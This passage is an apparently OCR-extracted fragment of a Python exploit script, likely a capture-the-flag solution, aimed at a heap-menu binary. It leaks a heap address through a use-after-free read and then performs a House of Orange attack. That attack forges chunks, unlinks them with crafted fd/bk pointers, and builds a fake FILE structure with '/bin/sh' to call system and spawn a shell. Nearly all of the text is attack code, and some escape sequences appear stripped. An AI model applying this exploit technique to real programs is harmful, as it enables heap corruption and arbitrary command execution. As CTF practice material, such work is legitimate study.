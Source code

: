 ```
    delghost()
    newheap("1")
    newheap("2")
    delheap(2)
    newheap("2")
    delheap(1)
    newheap("1")
    delheap(0)
    addghost(1,'1'*9)
    #delheap(0)
    seeghost(1)
    ret = p.recvuntil('$')
    addr = ret.split('11111111')[1][:-1].ljust(8,'x00')
    heap_addr = (u64(addr)-0x31)
    delghost()
    delheap(1)
    delheap(2)
    return heap_addr

def houseoforange(heap_addr):
    write_addr = heap_addr + 0x70
    aim_addr = heap_addr + 0xb0
    fd = write_addr - 0x18
    bk = write_addr - 0x10

    # malloc for 4
    newheap("0")
    addghost(1,'1')
    newheap("1")
    newheap("2")
    # unsortedbin(0x1c0) heap_2
    delghost()
    delheap(0)
    delheap(2)
    newheap("2")
    delheap(1)

    # heap_0 unsortedbin(0x100) nobody(0x10) heap_2
    newheap("0"*0xa0 + p64(0xb0))
    newheap("1")
    delheap(1)
    delheap(0)
    # heap_0=&gt;fake_chunk
    addghost(1,p64(0) + p64(system_addr))
    payload = p64(aim_addr) + p64(aim_addr)
    payload += "0"*0x30 + p64(0) + p64(0x111) + p64(fd) + p64(bk)
    newheap(payload)
    newheap("dddddd")
    delheap(2)
    newheap(2)
    delheap(1)
    payload = p64(0xffffffffffffffff) + p64(0)*2 + p64(heap_addr+0x18-0x18)
    newheap(payload)
    delheap(0)

    delheap(2)
    payload = "0"*0x40 + "/bin/shx00" + p64(0x61) + p64(0) + p64(io_addr-0x10) + p64(2) + p64(3)
    newheap(payload)
    p.recvuntil("Your choice: ")
    p.sendline("1")


if __name__=='__main__':
```